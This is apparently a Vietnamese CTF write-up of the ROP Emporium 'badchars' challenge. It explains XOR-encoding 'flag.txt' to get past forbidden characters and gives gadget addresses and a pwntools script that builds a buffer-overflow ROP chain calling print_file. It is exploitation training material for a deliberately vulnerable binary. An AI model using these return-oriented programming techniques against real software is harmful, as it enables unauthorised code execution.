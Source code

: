
### Phân tích
- Challenge này tương tự với `write4` nhưng có một chút thay đổi đó là các kí tự xấu không được cho phép `x` `g` `a`  và đều có trong chuỗi ta cần ghi vào `flag.txt`
- Đọc gợi ý
![image](https://hackmd.io/_uploads/SkpzLwFNA.png)
- Gợi ý của bài là sẽ XOR chuỗi này với khi đưa vào
- Khi đưa vào ta cần XOR ngược lại lần nữa để có chuỗi `flag.txt`, tìm qua các gadget thì thấy có các gadget rất hữu dụng 
```
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
```
- Nhưng mỗi lần XOR chỉ có một byte đầu được XOR nên ta XOR 8 lần để có được chuỗi
- *Giờ làm sao để `r15` chứa địa chỉ trỏ tới của chuỗi đã XOR khi đưa vào?* Thì sau khi tìm qua các gadget ta có những gadget này có thể giúp ta làm việc đó
```
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```
- Làm tương tụ với `write4` là đưa 1 địa chỉ cho phép ghi và đọc vào `r13`, `r15`. Sau đó đưa chuỗi đã XOR vào `r12` và dùng các gagdget trên địa chỉ trỏ vào chuỗi 
- Tương tự challenge trên hàm gọi `printf_file` nằm trong `usefulFunction`
![image](https://hackmd.io/_uploads/S19JYwF40.png)
- Ofset: 40 byte


---

### Script
```python=
#!/usr/bin/python3

def xor_2(s):
        res = ""
        for i in s:
                res += chr(ord(i)^2)
        return res

from pwn import *

p = process('./badchars')

xor_r15_r14b = 0x0000000000400628
pop_r12_r13_r14_r15 = 0x000000000040069c
mov_r13_r12 = 0x0000000000400634
pop_rdi = 0x00000000004006a3
pop_r14_r15 = 0x00000000004006a0
call_printf = 0x0000000000400620
rw_add = 0x601100

flag_xor = xor_2('flag.txt')
flag_xor = flag_xor.encode()

payload = b'B'*40
payload += p64(pop_rdi) + p64(rw_add)
payload += p64(pop_r12_r13_r14_r15) + flag_xor + p64(rw_add) + p64(2) + p64(rw_add)
payload += p64(mov_r13_r12)

for i in range(8):
        payload += p64(pop_r14_r15)
        payload += p64(2) + p64(rw_add + i)
        payload += p64(xor_r15_r14b)

payload += p64(call_printf)
```